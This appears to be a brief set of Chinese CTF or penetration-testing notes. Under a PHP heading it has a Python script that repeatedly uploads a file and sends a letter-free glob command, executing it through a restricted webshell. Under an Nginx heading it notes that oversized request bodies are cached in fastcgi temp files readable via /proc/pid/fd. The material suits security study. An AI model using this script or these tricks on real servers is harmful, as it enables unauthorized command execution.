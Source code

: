 - # PHP
	- [参考](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)
	- ```python
	  import time
	  import requests
	  
	  url = "http://hk2.xxx.xyz:3003/"
	  
	  while True:
	      r = requests.post(
	          url, 
	          params = {
	              "c": ". /[_-{][_-{][_-{]/[_-{][_-{][_-{]?????[@-[]"
	          },
	          files = {
	              "file":("a.txt", "env")
	          }
	      )
	      if r.text:
	          break
	      time.sleep(0.5)
	  
	  print(r.text)
	  ```
- # Nginx
	- [参考](https://www.cnblogs.com/h0cksr/p/16189739.html)
	- 大于32k的文件会被保存在`/var/lib/nginx/fastcgi`中,但是几乎会被立即删除
	- 可以使用`/proc/pid/fd`读取
-